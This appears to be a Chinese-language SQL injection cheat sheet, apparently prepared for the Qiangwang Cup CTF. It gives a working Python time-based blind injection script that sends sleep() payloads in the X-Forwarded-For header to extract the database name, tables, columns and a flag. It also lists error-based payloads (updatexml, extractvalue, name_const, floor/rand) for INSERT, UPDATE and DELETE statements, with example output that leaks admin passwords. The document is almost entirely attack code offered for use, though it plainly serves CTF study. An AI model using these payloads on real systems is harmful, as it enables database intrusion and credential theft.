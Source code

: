 # for-qiangwangbei
2018/3/23-for qiangwwangbei
一、盲注脚本
  1、sleep盲注
#coding:utf-8
import requests;
maystr="0987654321qwertyuiopasdfghjklzxcvbnm."
flag=''
for j in range(33):

    for i in maystr:
        url=""
        header={
            # "X-Forwarded-For":"' +(select case when (substring((select database())from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑数据库的名字
            #"X-Forwarded-For":"' +(select case when (substring((select(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑表明
            #"X-Forwarded-For":"' +(select case when (substring((select(select(group_concat(column_name))from(information_schema.columns)where(table_name=0x666C6167))) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i) #跑字段名
            "X-Forwarded-For":"' +(select case when (substring((select flag from flag) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑记录
        }
        try:

            res=requests.get(url, headers=header,timeout=5).text
        except:

             flag+=i
             print flag
        # print res
  2、三种报错注入
    报错注入：
1、使用updatexml()函数  // xpath injection

　　1. 注入

　　a. 载荷格式 ：or updatexml(1,concat(0x7e,(version())),0) or

　　b. insert注入：INSERT INTO users (id, username, password) VALUES (2,‘Pseudo_Z‘ or updatexml(1,concat(0x7e,(version())),0) or‘‘, ‘security-eng‘);

　　c. update注入：UPDATE users SET password=‘security-eng‘ or updatexml(2,concat(0x7e,(version())),0) or‘‘ WHERE id=2 and username=‘Pseudo_Z‘;

　　d. delete注入：DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or‘‘;

　　2. 提取数据

　　a. 载荷格式：

　　or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or

　　b. insert提取表名：　　

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

c. insert提取列名

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name=‘users‘ limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

 

　　d. insert进行dump

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM users limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

e. delete进行dump

　　DELETE FROM users WHERE id=1 or updatexml(0,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM users limit 0,1)),0) or ‘‘;

　　f.update进行dump ? 

　　同一个表不能用update进行dump，不同的表却可以

　　UPDATE students SET name=‘Nicky‘ or Updatexml(1,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM newdb.users limit 0,1)),0) or‘‘ 　　WHERE id=1;



2、 使用extractvalue()函数

　　a. 载荷格式：or extractvalue(1,concat(0x7e,database())) or

　　b. 注入：

　　　INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or extractvalue(1,concat(0x7e,database())) or‘‘, ‘Pseudo_Z‘);

　　  UPDATE users SET password=‘Nicky‘ or extractvalue(1,concat(0x7e,database())) or‘‘ WHERE id=2 and username=‘Pseudo_Z‘;

　　  DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or‘‘; 

 

　　c.提取数据　

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1))) or‘‘, ‘balabala‘);

　　dump操作及update、delete方法同上updatexml()

 

0x4 使用name_const() //5.0.13中引入，返回任何给定的值

　　a. 载荷格式： or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or

　　b. 注入：　　

UPDATE users SET password=‘Nicky‘ or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or ‘‘ WHERE 
id=2 and username=‘Pseudo_Z‘;

c. 提取数据

INSERT INTO users (id, username, password) VALUES (1,‘admin‘ or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1))a) or ‘‘, ‘oyyoug0d‘);



4、通过floor报错
可以通过如下一些利用代码
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
and (select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2)));
举例如下：
首先进行正常查询：
mysql> select * from article where id = 1;
+----+-------+---------+
| id | title | content |
+----+-------+---------+
| 1 | test | do it |
+----+-------+---------+
假如id输入存在注入的话，可以通过如下语句进行报错。
mysql> select * from article where id = 1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '5.1.33-community-log1' for key 'group_key'
可以看到成功爆出了Mysql的版本，如果需要查询其他数据，可以通过修改version()所在位置语句进行查询。
例如我们需要查询管理员用户名和密码：
Method1:
mysql> select * from article where id = 1 and (select 1 from (select count(*),concat((select pass from admin where id =1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry 'admin8881' for key 'group_key'
Method2:
mysql> select * from article where id = 1 and (select count(*) from (select 1 union select null union select !1)x group by concat((select pass from admin limit 1),floor(rand(0)*2)));
ERROR 1062 (23000): Duplicate entry 'admin8881' for key 'group_key'
